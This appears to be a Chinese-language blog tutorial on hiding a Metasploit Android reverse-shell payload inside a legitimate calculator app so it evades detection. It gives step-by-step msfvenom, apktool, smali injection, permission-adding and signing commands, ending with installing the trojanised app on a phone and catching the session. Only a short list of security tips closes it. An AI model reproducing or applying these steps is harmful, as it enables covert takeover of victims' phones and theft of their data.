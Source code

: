## 前言

上一篇文章我们,了解了`msfvenom`是可以对一些操作系统生成木马文件,但是这个这个文件的意图较为明显在手机上直接可以看到,因为生成的木马文件较小完全可以依附在一个较为正常的软件当中,那么今天我们看看如何制作将木马依附在正常软件中(免杀)

## 环境搭建

我们可以到[apktool官方安装说明](https://ibotpeaches.github.io/Apktool/install/)按照文章来安装和下载所需文件,如果打不开的可以按照我的步骤来
首先我们需要jdk8以上的一个Java环境(Kali自带)
我们可以使用`java -version`来查看我们java的一个版本情况(必须返回1.8以上版本)
下载apktools和apktools.java文件并且将他们放到`/usr/local/bin`目录下
使用`apktool`命令有返回输出说明apktool安装成功

## 生成木马文件并解包
生成木马apk文件
```shell 
msfvenom -p android/meterpreter/reverse_tcp LHOST=本机IP  LPORT=监听端口号 R > a.apk
```
反编译apk文件(将事先准备的apk文件也反编译了)
```shell
apktool d /root/a.apk
apktool d /root/b.apk
```
![]()

## 编辑代码

打开正常的apk解包文件夹中的的AndroidManifest.xml文件中查找Main和Launch关键词，定位到所对应的启动smail文件

![]()

好了，直接找到`/b/smali/com/meizu/flyme/calculator/CalculatorApplication.smali`文件,终于到关键时候了，我们要在计算器启动的activety中添加启动木马的代码。
打开`CalculatorApplication.smali`

![]()

直接搜索`onCreat`函数，找到`bundle`对象，你并在下面添加启动payload代码：
```java
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```

![]()

点击保存之后呢，我们还要把刚才反编译的木马文件中的smail代码复制过来，把木马(a)文件夹的smail/com/metasploit文件复制到计算器(b)的smail/com/目录下。

![]()

接下来呢，我们还有一个问题，就是权限的问题，木马作为监听程序，肯定少不了有很多权限，而计算器作为一个简单的工具，权限肯定很少，因此要想使监听功能更齐全，我们有必要补充一下权限。

![]()

现在保存退出，剩下的就是回编译签名了。

## 编译签名

编译
```shell
apktool b /root/桌面/b
```
生成KEYSTORE
```shell
keytool -genkey -v -keystore mykey.keystore -alias alias_name -keyalg RSA -keysize 1024 -validity 22222
```


这里需要记住你生成的密钥

签名
```shell
jarsigner -keystore 生成的.keystore文件路径 xx.apk文件 alias_name -sigalg MD5withRSA -digestalg SHA1
```

终于完工了,现在就可以把签名好的apk文件安装到手机上,然后利用msf监听上线就好了

## 安全建议
* 安装正版软件不要使用破解版
* 下载软件时去正规渠道的应用商店
* 安装时注意apk的签名文件
* 不使用类似于`核心破解`这类软件
* 严格控制应用程序的各个权限